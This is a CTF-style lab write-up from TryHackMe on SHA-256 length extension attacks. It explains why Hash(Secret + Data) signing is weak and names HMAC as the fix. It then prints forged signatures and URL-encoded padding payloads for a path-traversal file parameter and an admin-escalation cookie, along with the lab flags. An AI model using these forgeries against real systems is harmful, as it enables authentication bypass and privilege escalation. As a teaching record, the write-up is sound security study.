


# Length Extension Attacks: Practical Writeup

This writeup documents the core concepts and exploitation steps for performing Length Extension Attacks against signed parameters and cookies as demonstrated in the TryHackMe laboratory.

---

## 1. Hash Function Properties
To understand why these attacks work, we must first define the security properties of cryptographic hashes.

* **Pre-image Resistance:** Prevents an attacker from reversing a hash to retrieve the original input.
* **Collision Resistance:** Ensures that no two different messages produce the same hash output.

---

## 2. SHA-256 Hashing Internals
SHA-256 uses the Merkle–Damgård construction, processing data in sequential blocks.

* **Block Size:** SHA-256 operates on a block size of **512 bits**.
* **Padding:** This function ensures that the input data is aligned to fit the 512-bit block size requirements.
* **Internal State:** SHA-256 maintains an internal state consisting of **8 words** (32-bit registers).


---

## 3. Vulnerability Overview
A Length Extension Attack is possible when a server signs data using the format `Hash(Secret + Data)`. Because the final hash is simply the internal state of the algorithm after the last block, an attacker can use that hash to initialize a new hashing session and "extend" the data with their own malicious input without knowing the `Secret`.

* **Prevention:** Use **HMAC** (Hash-based Message Authentication Code), which incorporates the secret key in a way that prevents simple state reconstruction.

---

## 4. Lab 1: Attacking File Signatures
In this lab, the application validates a `file` parameter against a `signature` generated from a secret and the filename.

### Exploitation Logic
1. **Goal:** Append `/../4.png` to the original data `1.png`.
2. **Method:** Use `hashpumpy` to calculate the new signature and the required padding based on an assumed secret length of 8.
3. **Encoding:** The payload must be fully URL-encoded to ensure the null bytes and padding characters bypass the PHP `preg_replace` filter.

**Execution Command:**
```bash
python3 script1.py

Payload Details:

    Signature: a9f7878a39b10d0a9d3d1765d3e83dd34b0b0242fa7e1567f085a5a9c467337a

    File Parameter: %31%2e%70%6e%67%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%68%2f%2e%2e%2f%34%2e%70%6e%67
```


Flag: THM{L3n6th_3Xt33ns10nssss}

## 5. Lab 2: Modifying Signed Cookies

This lab involves privilege escalation by manipulating a signed auth cookie.
Exploitation Logic

    Original Data: username=user;role=0.

    Appended Data: ;role=1.

    Vulnerability: The server uses strpos() to check for role=1. Since our extended string contains both, the latter role=1 grants admin access.

Execution Command:

```bash
python3 script2.py 

Modified Cookie Values:

    hsh (Signature): daf3dbdc47fd93fabe110ef0ed58a39d1eb59c234a7fd66d0fe2e1dd76f1e37f

    auth (Data): %75%73%65%72%6e%61%6d%65%3d%75%73%65%72%3b%72%6f%6c%65%3d%30%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%e0%3b%72%6f%6c%65%3d%31
```



Flag: THM{l3n6th_2_4dM1n}
